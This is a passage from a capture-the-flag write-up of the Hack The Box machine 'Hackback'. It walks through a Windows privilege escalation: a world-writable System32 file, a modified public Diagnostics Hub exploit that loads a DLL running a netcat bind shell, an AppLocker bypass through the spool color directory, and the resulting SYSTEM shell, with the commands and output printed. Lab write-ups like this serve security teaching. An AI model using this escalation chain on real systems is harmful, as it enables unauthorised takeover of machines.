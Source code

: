 I have full privileges to that file:

```
C:\Projects>icacls c:\windows\system32\yolo.log

c:\windows\system32\yolo.log Everyone:(F)

Successfully processed 1 files; Failed processing 0 files
```

So that means I can replace it with an arbitrary DLL and load it using the Diagnostics Hub Standard Collector Service privilege escalation exploit.

I modified the exploit from [https://github.com/realoriginal/alpc-diaghub](https://github.com/realoriginal/alpc-diaghub)

![](/assets/images/htb-writeup-hackback/alpc1.png)

I created a simple DLL that executes netcat to spawn another bind shell on port 4300:

![](/assets/images/htb-writeup-hackback/pwndll1.png)

I then uploaded both files to their respective directories. The .exe needs to be in `/Windows/System32/spool/drivers/color` so I can avoid AppLocker.
```
# ./hackback_write.py "/Windows/System32/spool/drivers/color/ALPC-TaskSched-LPE.exe" ALPC-TaskSched-LPE.exe
# ./hackback_write.py "/Windows/System32/yolo.log" PwnDll.dll
```

Executing the exploit...

```
C:\Windows\System32\spool\drivers\color>ALPC-TaskSched-LPE.exe
ALPC-TaskSched-LPE.exe
[+] Loading DLL
Creating directory: C:\Windows\System32\spool\drivers\color\..\..\..\..\..\programdata\etw
[+] If everything has gone well, you should have a SYSTEM shell!
```

And now I have a bind shell as SYSTEM:

```
# proxychains nc -nv 127.0.0.1 4300
ProxyChains-3.1 (http://proxychains.sf.net)
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Connected to 127.0.0.1:4300.
Microsoft Windows [Version 10.0.17763.292]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

It looks like the Donkeys have one final troll, the `root.txt` is hidden and doesn't contain the flag:
